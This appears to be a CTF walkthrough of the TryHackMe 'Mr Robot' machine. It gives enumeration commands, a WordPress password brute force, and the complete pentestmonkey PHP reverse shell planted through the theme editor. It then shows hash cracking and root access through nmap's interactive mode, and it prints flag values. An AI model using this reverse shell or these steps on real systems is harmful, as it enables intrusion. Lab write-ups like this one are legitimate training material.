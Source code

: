 ```yaml
---
layout: post
title: mr robots
date: 2021-04-09
categories: [tryhackme, Medium]
tags: [gobuster, code-analysis, Exploit] # add tag
image: /assets/img/mr.robot/mrrobot.jpg
---
```


|Machine|Detail
|:---|:--
|Release date | 12 Sep 2020
|OS | Linux
|Rating | Medium
|Creator | [Ben](https://tryhackme.com/p/ben)

nmap -sC -sV ip -T5

gobuster dir -u ip -w /usr/share/wordlists/dirb/common.txt

10.10.61.197/key-1-of-3.txt [ 073403c8a58a1f80d943455fb30724b9 ]

wc -l fsocity.dic

sort fsocity.dic | uniq > fsocity-sorted.dic

wc -l fsocity-sorted.dic

10.10.61.197/wp-admin

wpscan --url 0.10.61.197 --wp-content-dir wp-admin --usernames elliot --passwords ~/Downloads/fsocity-sorted.dic

http://10.10.61.197/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=3409

```bash 
<?php
See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  
   1 => array("pipe", "w"),  
   2 => array("pipe", "w")   
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?> 
bash```

nc -nlvp 1234

http://10.10.61.197/wp-content/themes/twentyfifteen/archive.php

sukses

cd robot

cat password.raw-md5

john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5

python -c 'import pty; pty.spawn("/bin/bash")'

su robot

password : abcdefghijklmnopqrstuvwxyz

cat ~/key-2-of-3.txt [ 822c73956184f694993bede3eb39f959 ]

find / -perm /4000 -print 2>/dev/null

nmap --interactive

ketik command !sh 

